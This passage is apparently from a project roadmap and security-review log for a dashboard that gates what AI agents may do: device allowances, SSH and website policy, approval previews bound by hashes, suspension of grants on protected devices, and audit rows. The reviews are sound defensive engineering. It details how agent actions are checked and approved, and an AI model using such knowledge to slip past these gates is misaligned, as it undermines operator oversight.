* **CB6 — preview binding.** S2 and S5 previews return `preview_hash`, a
  SHA-256 over the resolved `(entity_id, registry_id)` pairs per permission,
  the risk list, the resume list, the waiting joiners and the config version.
  Apply requires it and recomputes it inside the transaction; a mismatch is
  409 `preview_changed`. Label joiners are listed separately as
  “will also add, waiting to join”, including for a rate-only edit.
* **CB7 — suspended edits are resumes.** S2 GET and the S5 document carry
  `suspended_at` and `suspended_reason`. A changed suspended row appears under
  `resumes` with its reason; `ha_changed` is marked as re-pinning to the
  current HA. Apply needs `resume_ack` as well as the preview hash, and an
  unchanged suspended row stays suspended.
* **Audit.** `agent_config_updated` records before → after for
  `tools.mode`, each newly `ungated` approval, `ssh.mode`, `ssh.hosts`,
  `websites.enabled`, `websites.allow` and `websites.deny`.
* **Legacy pins.** Startup runs one `refresh_labels('startup')` pass. An
  unpinned row is stamped only after its registry pins verify; a failed check
  suspends with `registry_changed` and leaves the HA pin unstamped.
* **Nits.** A label protected refusal names the device and says to unprotect
  it or pick devices instead of the label. The ceiling and protected list are
  rechecked inside the create, S2/S5, profile-apply and accept-join
  transactions. An explicit `expires_at: 0` clears an expiry; an absent field
  keeps it. The match-time protected audit row is written only for a runnable
  hit. The unused allowance lookups in the revoke/resume endpoints are gone.

### Reviewer notes

---

| 18a | X2 | runbooks-page | dashboard UI | **Merged** 2026-11-11 | `feat/x2-runbooks-page` | F13 | |
| 18b | F27 | allowances | dashboard + MCP | **Merged** 2026-11-17 (security `17b8db6`, BX1–BX6 confirmed); not yet deployed. Follow-up BZ3 (config-entry edits suspend allowances). Whichever of F27/E2E-1 merges second adds `excluded` to the two allowance statistics queries: that is E2E-1 | `feat/f27-allowances` | F10 (P2), Chunk H, F18 | security re-reads §2–§5 and the label section; AZ6 (`restart`) is with the operator |
| 18c | X3 | integrations-ui | dashboard UI | Requested 2026-11-12; the agent-policy half is superseded by X11 (2026-11-17); the Integrations page half remains | `feat/x3-integrations-ui` | F27, F10 (P2) | operator walk-through first |
| 18d | X4 | agents-page | dashboard UI | **Merged** 2026-11-12 (into 1.3; on master 2026-11-14): one Agents page (tokens, policy sections, web fetch, activity); Controls renamed Command policy; absent policy fields keep their stored value | `feat/x4-agents-page` | `fix/agent-ssh-hosts` | rename Controls → Command policy |
| 18e | X5 | ui-test-round | dashboard UI | **Merged** 2026-11-12 (into 1.3; on master 2026-11-14): six test-round fixes plus the X5-r plan-card regression fix | `fix/x5-ui-test-round`, `fix/plans-widget-visible` | — | six small fixes |
| 18f | X6 | agent-api-round | dashboard | **Merged** 2026-11-12 (into 1.3; on master 2026-11-14): D3/D4, D6, D7, D8 (test), D9, D10, D11, D12, D14, D15, D16a/b, D18a/b, BK5 | `fix/x6-agent-api-round` | — | 12 items; D1 fixed separately |
| 18g | X7 | installer-channels | dashboard | **Merged and deployed** 2026-11-14 (`a0a57ce`; deployed at master `800efe3`): real Build/Edge/Fleet channels; Seed Edge → Deploy to Fleet → Rollback; Build only in git, channels outside the checkout; BP1 (no `fleet.prev` on migration) | `fix/x7-installer-channels` | — | security re-read `45a59c3`: BP1 approved; BP2 → X9 |
| 18h | UI passes | ui-pass-1 / ui-pass-2 | dashboard UI | **Merged and deployed** 2026-11-14 (`800efe3`): `3c9dd55` (BS1: the strip reviews, it does not decide), `c22c5ff` polish, `608f676` audit fixes; live and approved by the operator (the "wash" they saw was a browser extension) | `fix/ui-pass-1` | X5, `docs/ui-audit` | BS1 approved; plan approved only where its commands are visible |
| 18i | 1.3 | core | dashboard + gateway | **Merged and deployed** 2026-11-14 (deployed at master `f0af7e7`; BO1 with `800efe3`) | `release/1.3-core` | — | security approved `ac41a70` |
| 18j | Release tests | release-tests-1.3 | docs | **Merged and deployed** 2026-11-14 (`800efe3`): Release 1.3 checks and the fleet rollout checklist | `docs/release-tests-1.3` | 1.3 | operator walk-through |
| 19 | F22 | change-checks | dashboard + MCP | Code round 3: rebased onto the 1.3 stack (lockbox, BE3/BE4, X6, BF2), all four installer files regenerated (the test rebuilds the generator's output) | `feat/f22-change-checks` | F3, F5, F12, F19 | security reviews the gateway hunk and the code |
| 20 | F16 | recipes | dashboard + MCP | Design complete (security Round 4; feature reviewer Round 5 with AA1/AA2); code next after F22 | `feat/f16-recipes` | F3, F12, F13, F19 | main line; steps claim by request id; code comes back to security; auto_run comes back to security |
| 21 | F24 | content-tripwire | dashboard | Design first | `feat/f24-content-tripwire` | F12, F14 | + security sign-off (retention) |
| 22 | F25 | secrets-broker | gateway + dashboard | Design first | `feat/f25-secrets-broker` | F1, F12, F19; security Chunk 7 before deploy | + security sign-off; gateway bash line by line |
| 23 | F26 | agent-shadow | dashboard + MCP | Ready after F16 | `feat/f26-agent-shadow` | F1, F12, F16, F18 | security reads the enforcement points |
| 24 | F20 | local-agent-pass | docs | Parked | `docs/local-agent-pass` (local, unpushed) | — | experiment; last |
| 25 | F17 | local-agent | dashboard + docs | After F20; pre-implementation notes A1–A6 | `feat/f17-local-agent` | F12–F16, F26 | experiment; last |
| 26 | 1.4 | — | gateway stack | **Approved for rollout** 2026-11-15 (security `838d77d`): BH2/BQ2, BQ4, F19, X8 (gateway + dashboard), BS1/BS2; rebased onto X7, Build only; the BS2 install-read nit is fixed | `release/1.4-gw` | X7, F19, RR1 | security approved the whole stack; rollout Seed Edge → dev gateways → Deploy to Fleet |
| 27 | X8 | gateway-installer-version | dashboard + gateway | **Code complete** 2026-11-14: on `release/1.4-gw` (BR1 folded; the hash is display-only) | `feat/x8-gateway-installer-version` | X7 | security approved; five buckets sum to the gateway count |
| 28 | X9 | gated-gateway-files | dashboard + gateway | **Design note** 2026-11-14 (BP2): installer-carried vs authenticated channel files; recommends (b) | `feat/x9-gated-gateway-files` | X7, 1.4 | security sign-off before code |
| 29 | X10 | approved-windows-modal | dashboard UI | **Merged** 2026-11-17: presets, Once default, typed local HH:MM + duration, live plain-words preview; agent requests use the same preview; not yet deployed | `feat/x10-windows-modal` | — | UI only; no schema or window-meaning change |
| 31 | X11 | agents-allowances-redesign | dashboard UI + small API | **Operator polish in review** 2026-11-19: one-section editor with `#agent/<id>/<section>` deep links, danger zone, collapsible tools, grouped two-row device grid and phone cards, the two risky groups, Check-gated JSON. Stage 2 merged (`24a043a`); Stage 3 Part 1 approved (`2879f80`). | `feat/x11-ui` | F27, X4, fix/f27-ha-by-kind | operator reviews Part A/C; not deployed |
| — | CI fix | ci-environment | gateway + tests | Merged (`f2746ef`); CI pinned to ubuntu-24.04 (`6d58006`) | `fix/ci-environment` | F5 | |
| — | Buffering | stream-unbuffered | gateway | Merged (`d8d70c2`); S1 tee fix done in Gateway hardening | `fix/stream-unbuffered` | F5 | |
| — | Gateway hardening | gateway-hardening | gateway | **Merged** 2026-11-12 (AF3 + S1 tee capture; security `c15664e`; AX1/AX2 residuals; BA1 for the next F5/F19 change) | `fix/gateway-hardening` | F19, Buffering | |
| — | Installer hotfix | installer-reregister | installer | **Merged and deployed** 2026-11-12 (`d6a38bb`; security `d6a38bb`): re-register presents the existing token; keys only after a 200 | `fix/installer-reregister` | F12 | |
| — | BE3 | secret-headers | gateway + installer + poller | **Implemented**: every token header goes on stdin (`-H @-`), the result post uses a private header file, and argv is asserted token-free in all three stub harnesses | `fix/secret-headers` | RR1 | security sign-off |
| — | BE4 | update-dashboard-key | installer | **Implemented**: `--update` refreshes only the `eshu-dashboard` line after a 200, copies its `from=`, refuses symlinks, uses `mktemp`; the fixed `.tmp` name is gone everywhere | `fix/update-dashboard-key` | RR1 | security sign-off |
| — | GT1 | gateway-token-rotation | dashboard + poller | Design round 2 2026-11-14 (BS4/BS5 folded): routine poll rotation vs compromise SSH push, 24 h gateway-enforced mtime, Revoke token | `feat/gt1-token-rotation` | RR1 | + security sign-off; code after 1.4 |
| 29 | E2E-1 | e2e-smoke | test tooling | **Design** 2026-11-15; main reviewer notes CA1–CA7 (2026-11-17: live dashboard + one dev gateway, scoped approver token); security reads before code | `feat/e2e-smoke` | F3, F12, F15, F27 (when merged), 1.4 | an automated approver: dedicated credential, window attribution, allowlist mode (see open questions) |

Chunks are done **in the order column**; each new chunk branches from the
updated `feature-roadmap` after the previous one is merged. A design-first
chunk's design note may be written while the chunk before it is with a
reviewer; its code still waits for its turn.

### Security review of Stage 2 (security reviewer, 2026-11-18, at `0d13e73`)

**Approved to merge once CB5–CB7 are in.** Code text read only; nothing
was run. Each of the three is small.

**What holds:**
* **Scope.** Every new route needs `_check_session`, and none is on the
  approver allowlist.
* **S1, the device list.** It returns chosen fields only, so no
  `entity_picture` or `access_token` attribute can leak. It also goes
  through `scrub_payload`, and the cache key includes the HA id and base
  URL.
* **One validator.**
  * S2 and S5 send every permission through `_validate_allowance`, which
    now also checks never-allowed, protected and the expiry.
  * The tools and SSH sections go through `validate_policy`, plus the
    test-agent rule.
  * The `test_agent` flag is kept and cannot be set from the document.
  * Websites go through `validate_web_policy`.
  * Unknown keys are refused at every level.
* **Atomic writes.** Every section is written in one `BEGIN IMMEDIATE`,
  and the version is checked again inside the transaction.
* **The version counter.**
  * Every core writer bumps it inside its own transaction: suspend,
    revoke, resume, `accept_join`, profiles, label and pin refresh,
    protection, website policy and `set_agent_policy`.
  * A document loaded before any of those writes is therefore a 409,
    including after a background refresh or an approver revoke.
* **S4 matching.** A pinned row on another HA or base URL is refused at
  match time, not only on the next refresh.

**CB5 (should): adding protection must disarm existing grants.**
* `set_protected_entities` only bumps versions. A live hand-made
  permission that already holds the entity keeps it.
* Match time refuses the call, so nothing runs today. But if the
  protection is removed later, the old grant is live again at once.
* The removal notice says "an agent may now be granted it". In fact some
  agents already are.
* Label rows drop the entity on the next refresh; device rows never do.
* **Fix:** in the same transaction as the insert, suspend every live
  allowance that holds a newly protected entity, with reason `protected`.
  Resume or edit then re-validates and refuses while the entity is still
  protected. List the affected agents in the audit row.

**CB6 (should): bind the apply to what the preview showed. This answers
question (2).**
* A label permission resolves the label's members at apply time, and
  `risk_ack` is a bare boolean.
* Version bumps do not cover a change to HA label membership between
  preview and apply, because nothing is written until a refresh runs.
  So the ack given for the preview can cover a risky device the operator
  never saw.
* Editing only the rate of a label permission also pulls in every member
  held in `pending_json`, and nothing calls them out.
* The checks match `accept_join`'s (ceiling, protected, the 64 cap, risk),
  so this is about visibility, not a missing gate.
* **Fix:**
  * Return a `preview_hash` over each permission's resolved entity set
    plus the risk list. Require it on apply and answer 409 when it
    differs, the same pattern as the ceiling's `set_hash`.
  * Have the preview list the joiners separately, for example "also
    accepts 2 devices waiting to join: …".

**CB7 (should): editing a suspended permission is a resume, and must say
so. This answers question (3).**
* A changed row is a revoke plus a fresh, unsuspended insert, pinned to
  the current HA. Re-validation catches `registry_changed`, since the
  pins are re-read.
* It cannot catch `config_entry_changed`: the registry id is unchanged,
  and that suspension exists precisely because validation cannot see the
  change.
* It also silently re-blesses an `ha_changed` row on the new instance.
* The S5 document does not carry `suspended_at`. A JSON round-trip that
  touches the rate therefore resumes the row, and the operator is never
  told why it was suspended.
* **Fix:**
  * In the preview, mark each change whose old row is suspended:
    "resumes: suspended because <reason>".
  * Require `resume_ack` on apply when there is one, and record the
    reason in the audit row.
  * A suspended row that is left out of the document is removed, which
    is fine.

**Answers to the other questions:**
1. **S5 as a single write path.** Acceptable. It cannot do anything the
   GUI refuses: the validators, the test-agent rule and the transaction
   are all shared. One gap: the audit row lists only the section names.
   The legacy policy save records `tools_mode`, the rate, and the SSH mode
   and hosts. Record the before and after of `ssh.mode`, `ssh.hosts`,
   `tools.mode`, any `approval` value that becomes `ungated`, and
   `websites.enabled`/`allow`, so a JSON widening is as visible as a GUI
   one.
2. **Legacy rows before backfill.** Acceptable: they match exactly as
   before X11, so nothing widens. Two improvements:
   * Run the backfill once at startup, after the first successful registry
     read, instead of waiting for the five-minute loop.
   * Backfill a row only after its registry pins verify. Today the HA pin
     is written before the pin check, so if HA changed before the upgrade,
     the row is first stamped with the new HA and then suspended. The pin
     check saves it, but the stamp is wrong.
3. **Protection is keyed by entity id.** Should, fold it into CB5:
   * Store the registry id when an entity is protected, and refuse on
     either the entity id or the registry id.
   * Every permission already pins registry ids, so the match-time check
     can compare `pins[].registry_id` against the protected registry ids
     without reading HA.
   * A renamed protected entity then stays protected, and an allowance
     for its new name is refused.

**Nits:**
* **Protection between save paths.** S2/S5 refuse a label permission
  whose label contains a protected entity, while refresh drops such a
  member. Refusing is safe; say "remove the label from the device, or
  unprotect it" in the error.
* **Ceiling changes.** Applying a ceiling change bumps only the agents
  whose rows it touches. A save validated just before a ceiling change
  can still insert a row the ceiling now forbids. Match time refuses it,
  but re-check the ceiling and protection inside the apply transaction.
  It costs little.
* **Clearing an expiry.** `expires_at=new.get('expires_at') or
  old.get(...)` means an explicit `0` cannot clear an expiry on edit. That
  is conservative; use `'expires_at' in provided`.
* **Audit volume.** The match-time `allowance_protected_refused` row is
  written for every call that names a protected entity, even when no
  allowance would have matched. Write it only when a hit was refused.
* **Dead code.** `row = allowances.get_allowance(aid)` is unused in the
  revoke and resume endpoints.

### Security re-read of the Stage 2 fixes (security reviewer, 2026-11-18, at `76b54f9`)

**CB5–CB7 hold. Stage 2 is approved to merge.** Code text read only;
nothing was run. Holding the deploy until Stage 3 is right.

**CB5 is confirmed.**
* Protecting a device now stores the registry id. In the same
  transaction, it suspends every live permission that holds the device,
  by entity id or registry id, and bumps each affected agent's version.
* Removing protection resumes nothing, and the notice now says so.
* Resume refuses while any of the permission's devices is protected. It
  checks this both before and inside its transaction.
* One check, `_protected_hits`, now covers save, `accept_join`, label
  refresh and the in-transaction re-check.
* Match time uses the hit's stored pins, so a renamed protected device is
  refused without reading HA. The rename case is tested.

**CB6 is confirmed.**
* `preview_hash` covers the version, each permission's resolved
  (entity, registry id) pairs, the risk list, the resumes and the waiting
  joiners.
* Apply requires the hash, recomputes it from a fresh registry read, and
  recomputes it again inside the transaction against the rows read there.
  Either mismatch is a 409.
* `risk_ack` is still required on top.
* Joiners are listed separately, and a rate-only label edit names them.
* A member added after the preview, and a risky device that appears after
  it, are both tested as 409s.

**CB7 is confirmed.**
* Suspension (reason and since) is shown in both GETs.
* A changed suspended row is listed under `resumes`, with `ha_changed`
  marked as re-pinning. It needs `resume_ack`, which is checked again
  inside the transaction, and the resume is audited with its reason.
* Unchanged suspended rows stay suspended, and a protected row still
  refuses.

**The answers and nits are done.**
* `agent_config_updated` now records before and after for `tools.mode`,
  each newly ungated approval, the SSH mode and hosts, and the website
  settings.
* The startup pass checks the registry first and stamps a row only when
  the check passes.
* Ceiling and protection are re-checked inside every apply transaction.
* An explicit `expires_at: 0` now clears the expiry.
* The protected-refusal audit fires only on a hit that would have run.
* **A fix worth recording.** This round also fixes the argument order of
  `validate_policy` in S5. At `0d13e73` it passed `approval` and
  `argument_rules` swapped, and my round-1 note missed it. The ungated
  round-trip test (`tests/test_x11_agent_config.py`) now covers it.

**Your two questions:**
* **(a) Protecting while HA is unreachable.** Refusing is safe, but it
  blocks a *tightening* because HA is down. Follow-up, not a blocker:
  * Accept the protection with `registry_id = ''`, and suspend by entity
    id at once.
  * Backfill the registry id on the next successful refresh, and audit
    the backfill.
  * Protection should never wait on HA being available.
* **(b) The two ceiling checks.** Fold them into one helper that takes a
  connection, and have `ceiling_allows` call it with its own. Two copies
  of a deny rule drift apart. Do it before Stage 3 touches the ceiling
  again; it is not a blocker for this merge.

**Nit.** In S5, `preview_hash` binds the HA part only. The tools, SSH and
website sections are deterministic from the resent document, so this is
not a gap the operator can be surprised by. Adding a hash of the
normalised policy and web sections would make "what was previewed is
what was applied" literal for the whole document.

### Security review of Stage 3 Part 1 (security reviewer, 2026-11-19, at `978bcef`)

**Approved, for the Part 1 commit only.** Code text read only; nothing was
run. The UI commits on this branch are for a later read.

**The ceiling rule now lives in one place.**
* `ceiling_allows(..., conn=None)` and its transaction form both call
  `_ceiling_denied`. With a connection, the operator words and the
  enabled flag are read on that transaction.
* `_ceiling_allows_conn` is now a thin wrapper.
* The behaviour is the same as `is_destructive`: the built-in words plus
  the operator words, and a catalogue exemption never covers an operator
  word.
* **Nit.** `is_destructive` itself still has its own copy of the loop,
  used by `apply_ceiling`. Make it call `_ceiling_denied`, so there is
  truly one rule.

**Protection now works while HA is unreachable.**
* Only a 503 from the registry read takes the new path. The entity id is
  stored with an empty registry id, and matching permissions are suspended
  by entity id in the same transaction.
* A reachable HA that does not know the entity is still a 400.
* Both refreshes call `_backfill_protected_registry`, which fills only
  empty ids, only for entities HA now knows, and audits each fill.
* **Nit.** The backfill reads the registry id under the *current* entity
  id. If the device was renamed during the outage, the id stays empty;
  if another device took the name, it captures the wrong device. Both
  leave the protection no weaker than entity-id-only, and the audit row
  shows what was filled.
  * After a fill, sweep live permissions by the filled registry id and
    suspend any that hold it under another entity id, the same as the
    add path.

**The S5 preview hash covers every section.**
* `_section_fingerprint` hashes the tools, SSH and websites sections as
  they will be written, after validation and after absent fields are
  merged from the stored policy.
* The same value goes into the hash inside the transaction. A change to
  the SSH hosts after the preview is a 409, and that is tested.

**Risk confirmation on a whole-document apply: keep it as you propose.**
* An apply re-states every permission, so requiring the confirmation for
  an already-allowed risky item is consistent with "the document is what
  gets written".
* The hash already binds the risk list, so the confirmation is tied to
  what was shown.
* The UI should list risky items in two groups, "new or changed" and
  "already allowed, confirm again". A reflexive click is the failure
  mode, and a separate group keeps the new items visible.
* Do not scope the ack to added or changed items only. A resumed or
  re-pinned item is "changed" in ways an operator may not read as new
  risk.

### Security re-read of Part C (security reviewer, 2026-11-19, at `c7458cc`)

**Confirmed. The API side of `feat/x11-ui` has no open security items.**
Code text read only; nothing was run. This covers the
`allowances.py`/`main.py` hunks of `c7458cc`; the UI changes are for the
operator review.
* **One rule.** `is_destructive` now returns `_ceiling_denied(service,
  exempt, operator_words())`, so the destructive-word loop exists once,
  and a test checks that both paths agree.
* **The backfill sweep.**
  * Filling a registry id that was captured while HA was down now
    suspends, as `protected` and in the same `BEGIN IMMEDIATE`, every live
    permission that holds that registry id under another entity id.
  * It bumps each affected agent's version and writes an audit row per
    suspension.
  * The rename-during-outage test covers it.
  * Permissions on the protected entity id itself were already suspended
    when protection was added, so the two paths together cover both
    names.
* **`available_agent_tools` adds `always_gate`.** It is an
  operator-session read of an existing flag; no concern.

### Security review of the window-token audit fix (`fix/window-token-audit` @ 91cdf82)

**Approved to merge.** Code text read only; nothing was run.
* All four rows now carry `token_fp`, the first eight hex characters of
  the token's SHA-256: `window_created`, `window_claimed`,
  `window_request_approved` and `window_deleted`.
* Window tokens are 24 characters from `[A-Za-z0-9]`, about 143 bits, so
  an 8-hex fingerprint gives nothing usable to someone who could only
  read the audit log.
* No other `record_audit_event` call in `main.py` interpolates a window
  token. The test covers all four event types.

**The migration: yes, write it.**
* Old rows can hold the tokens of windows that are still active, and
  `audit_log` is plain rows with no hash chain. A narrow rewrite therefore
  breaks no integrity property. Your conditions are right: only the four
  event types, only the token field, one transaction, a count and no
  token in its own audit row.
* Add the following:
  * **Match tightly.** Match `token=([A-Za-z0-9]{1,64})` and
    `Token ([A-Za-z0-9]{1,64}) claimed`, the same charset the gateway
    enforces. Replace the match with `token_fp=<sha256[:8]>`.
  * **Make it idempotent with a settings flag.** Mark it run once it
    commits, and skip rows that already carry `token_fp=`.
  * **Leave placeholders alone.** If a row's value is `?`, or empty, as
    in the old `window_deleted` path, leave it.
  * **Tell the operator what remains.** Copies made before the migration,
    such as backups, CSV or JSON audit exports and support bundles, still
    hold the tokens. The CHANGELOG should say: "if you shared an audit
    export, delete and re-create your active windows".
    Offer nothing automatic for those copies.
* Keep the rows themselves, as you propose. They are the record of who
  created and approved each window.

**Backlog (not this branch).**
* Two public routes still carry a window token in the URL path, which
  lands in the access log:
  * `POST /api/approved-windows/execute/{token}`, the pre-BJ2 claim route
    kept for old gateways;
  * `GET /api/window-by-token/{token}`.
* Retire the first once the fleet is past BJ2, for example in the X9
  legacy retirement.
* Give the second a body or header form, and move E2E-1's C11 onto it.

### Security review of the label registry read (`fix/ha-label-registry-read` @ 50337b3)

**Approved.** Code text read only; nothing was run.
* `config/label_registry/list` is named in `READ_COMMANDS`. It was
  already a read through the generic `list` suffix, so this records a
  reviewed decision and changes no behaviour.
* `create`, `update` and `delete` stay non-reads, and are refused before
  a WebSocket opens.
* An agent without HA read access is still refused by its allowlist.
* The other registries' commands are unchanged.
* Label names are operator metadata and no more sensitive than the
  entity registry list, which is already a read.
* A label write still runs only as a gated WS call. Deleting a label only
  removes members from label-following allowances, on the next refresh.

**Stage 3 (2026-11-18).** Code is on `feat/x11-ui`, branched from
`852270d`. The real dashboard shell now has two Agents tabs; the old
Allowances page and its JavaScript are gone, while the API endpoints stay.

* **Part 1 — Security follow-ups.**
  * `ceiling_allows(..., conn=None)` is now the one ceiling check;
    `_ceiling_allows_conn` is a thin compatibility wrapper. The destructive
    word rule lives in `_ceiling_denied`, once, and both call styles are
    tested.
  * Protection while HA is unreachable is accepted with an empty registry
    id, suspends by entity id in the same transaction, and backfills the
    registry id on the next successful refresh with
    `allowance_protected_registry_filled`. A rename after the backfill is
    still refused by the stored registry id.
  * The S5 `preview_hash` now also hashes the tools, SSH and websites
    sections as they will be written. A document whose SSH hosts differ
    from the previewed one is a 409.
* **Part 2 — the UI.** `dashboard/static/x11.js` and `x11.css` render the
  two tabs, the card grid, the six agent sections, the area-grouped device
  grid, the Check preview and the JSON editor. `tests/ui/x11_check.cjs`
  drives the real page for the tabs, card counts, grid, hash/ack bodies,
  409 reload wording, expiry removal, JSON server errors, Resume and the
  390 px layout. `scripts/x11_ui_shots.cjs` renders the seven states at
  1440 and 390 into `docs/screenshots/x11/` against
  `tests/ui/seed_ui.py` (synthetic `192.0.2.x` / `*.example.test` data).
  The old mock screenshots were removed.
* **Still open for review.** The operator review covers the look and the
  six Stage 3 fixes; Security reads the three server items. Nothing is
  merged into master or deployed.


**Stage 3 polish (2026-11-19).** Operator review round on `feat/x11-ui`,
plus Security's two server nits.

* **Agents.** "New agent" is a button beside the title. The card summary is
  in words (tools, one device line, SSH); an empty agent says "No tools
  yet".
* **Editor.** One section at a time with `#agent/<id>/<section>` deep
  links. Revoke/Delete moved to a Danger zone at the bottom of Overview,
  each behind its own confirmation.
* **Tools.** Integrations collapse with a "tools · ask first" summary,
  search and "Only allowed" filters, first-sentence descriptions with
  "more", and no ALL-CAPS instruction text. Always-gate tools (HA
  `call_service`) disable "Runs without asking" and link to the device
  picker instead.
* **Grid.** Two-row headers grouped by device type (Lights / Plugs and
  switches / Covers), device names in the body font and entity ids in
  mono, app-styled search/checkbox/date controls, full label names under
  the picker, a one-line protected row, and bottom padding equal to the
  floating save bar. At 390 px each device is a card with its own toggles,
  grouped by room; the pick/label choice sits in a per-type settings row.
* **Preview.** Only the sections that changed are listed, once each. The
  sentence is "will be able to open 1 more device: Garage door."; risky
  lines use the action and device name, split into "New or changed" and
  "Already allowed, confirm again". Apply stays disabled until the boxes
  are ticked and reads "Allow and save" when a risk confirmation applies.
* **JSON and Rules.** JSON Apply is disabled until Check passes and after
  any edit. Protected devices start as "Protected: TV plug" with Change;
  settings entities stay behind Show settings entities.
* **Security nits.** `is_destructive` now calls `_ceiling_denied`, so the
  word loop exists once. A registry-id backfill also suspends live
  permissions that hold that id under another entity id, in the same
  transaction and with an audit row.
